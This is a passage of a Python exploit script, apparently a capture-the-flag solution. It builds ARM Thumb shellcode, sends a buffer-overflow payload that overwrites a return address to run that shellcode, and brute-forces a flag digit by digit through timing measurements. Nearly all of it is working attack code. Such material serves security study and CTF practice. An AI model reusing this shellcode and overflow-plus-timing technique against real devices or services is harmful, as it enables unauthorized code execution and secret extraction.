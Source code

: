 ```python
            mov r0, r5
            bl run
            b afterrun
            run:
            bx r6
            afterrun:
            sub r7, r7, 1
            cbz r7, endrun
            b loop
            endrun:

            /* remove the pushed attempt again */
            add sp, sp, 0x8

            /* Ugly way to make a jump */
            eor r9, r9, r9
            orr r9, r9, 0x0800
            lsl r9, r9, 8
            orr r9, r9, 0x04
            lsl r9, r9, 8
            orr r9, r9, 0x0b

            /* Same ugly way to transfer control back to main where we came from */
            eor lr, lr, lr
            orr lr, lr, 0x0800
            lsl lr, lr, 8
            orr lr, lr, 0x7
            lsl lr, lr, 8
            orr lr, lr, 0x25

            /* Fake stack for execute_command */
            mov r5, sp
            push {r0, r1, r2, r4, r5, r6, r7, lr}
            /* Jump to the get_flag command part */
            bx r9
    """.replace("ATTEMPT", push_dword(attempt[4:][::-1]) + push_dword(attempt[:4][::-1])))

import time, sys, os
for c in string.digits:
    initial = b'help a a a a a a a a a  '
    assert len(initial) % 2 == 0
    SC_ADDR = BUFFER_ADDR + len(initial)
    shellcode = make_shellcode(c.encode() + b"a" * 7) # change this to do later digits, of course
    payload = initial + shellcode + b' ' * (0x304 - len(initial) - len(shellcode)) + pack(SC_ADDR | 1)

    io = start()
    io.recvuntil("seconds...")
    t = time.time()
    io.send(payload)
    io.stream()
    print(c, time.time() - t)
    io.close()
    time.sleep(15)
```
